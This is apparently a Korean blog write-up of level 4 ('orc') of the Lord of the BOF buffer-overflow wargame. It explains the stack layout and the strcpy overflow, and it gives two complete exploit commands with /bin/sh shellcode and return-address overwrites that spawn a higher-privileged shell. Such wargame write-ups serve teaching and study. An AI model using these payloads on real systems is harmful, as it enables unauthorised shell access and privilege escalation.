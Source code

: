 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 4"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level4/1.jpg" | relative_url }}' alt='relative'>  

## 1) goblin/hackers proof 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level4/2.png" | relative_url }}' alt='relative'>  

이번 문제는 eggshell 헌터가 있네요.  
argv[1] 문자열 배열에서 47번째 문자가 '\xbf'가 아닌 경우 프로그램이 강제 종료합니다.  

<img data-action="zoom" src='{{ "assets/lob/level4/3.png" | relative_url }}' alt='relative'>  

orc 프로그램의 소스코드를 새로 컴파일하여 gdb로 실행했습니다.  

동일한 방식으로 프로그램을 2번 실행한 결과입니다.  

<img data-action="zoom" src='{{ "assets/lob/level4/4.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level4/5.png" | relative_url }}' alt='relative'>  

ebp 레지스터가 가리키는 주소는 변하지 않았습니다.  
ASLR이 적용되지 않았나 봅니다.  

## 2) 스택 구조 살펴보기  

<img data-action="zoom" src='{{ "assets/lob/level4/6.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level4/7.png" | relative_url }}' alt='relative'>  

원래는 &envp와 argv 사이에 auxv가 들어있긴 하지만 이 부분에서는 설명하지 않겠습니다.  
&envp 보라색 부분과 argv 녹색 부분 사이에 아무 표시 하지 않은 데이터들이 auxv입니다.  

스택의 구조를 보면 argv로 할당된 주소 공간은 사용자가 입력한 길이에 따라 유동적으로 늘어납니다.  

## 3) 공격 페이로드 입력하여 BOF 일으키기  

### (1) buffer 배열에 쉘코드 입력하고 buffer 배열의 주소를  RET에 입력하기  

ebp 레지스터가 가리키는 주소는 0xbffffb38 입니다.  

``` bash
0x80485b9 <main+185>:  lea    %eax,[%ebp-40]
0x80485bc <main+188>:  push   %eax
0x80485bd <main+189>:  call   0x8048440 <strcpy>
```

배열의 위치는 ebp 레지스터가 가리키는 주소에서 40 byte 뺀 거리에 위치합니다.  
그러면 buffer 배열의 시작 주소는 0xbffffb10 입니다.  

``` bash
./orc `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x10\xfb\xff\xbf"'`
```

이 방법을 사용하면 orc 프로그램에서 ebp 레지스터가 가리키는 주소와 buffer 배열이 위치한 주소를 정확히 알아야합니다.  
왜냐하면 NOP이 매우 짧기 때문입니다.  

### (2) 환경변수 내용이 저장되는 envp 배열 위치에 쉘코드 입력하기  

<img data-action="zoom" src='{{ "assets/lob/level4/8.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level4/9.png" | relative_url }}' alt='relative'>  

strcpy 함수가 실행되기 전(위)과 후(아래)로 스택에 저장된 값이 변경되었습니다.  

<img data-action="zoom" src='{{ "assets/lob/level4/10.png" | relative_url }}' alt='relative'>  

strcpy 함수가 실행되기 전(0x80485bd, <main+189>)에는 프로그램 실행 시 인자로 입력한 문자열이 0xbffffb7c 라인의 0xbffffb82 주소부터 시작합니다.  

strcpy 함수가 실행하여 0xbffffb82부터 0xbffffc7a까지 있던 248개의 문자열을 buffer 문자열 배열의 시작 주소인 0xbffffa00부터 0xbffffaf8까지 덮어 썼습니다.  


프로그램을 실행할 때 인자로 입력하는 문자열에 엄청 많은 수의 NOP을 입력하고 그 뒤에 쉘코드를 입력하면 ebp 레지스터가 가리키는 주소 이후의 아무 주소를 가리켜도 쉘코드가 실행될 것입니다.  

한 0xbffffbfc 이 주소 부근에 쉘코드가 저장되어 있다고 가정하고 공격 페이로드를 작성합니다.  
해당 주소는 제가 임의로 정한거고 무조건 저 주소를 써야하는건 아닙니다.  

``` bash 
./orc `python -c 'print "\x90"*44+"\xfc\xfb\xff\xbf"+"\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

<img data-action="zoom" src='{{ "assets/lob/level4/11.png" | relative_url }}' alt='relative'>  

이처럼 level5의 권한으로 배시쉘이 실행되었습니다.  

<img data-action="zoom" src='{{ "assets/lob/level4/12.png" | relative_url }}' alt='relative'>  
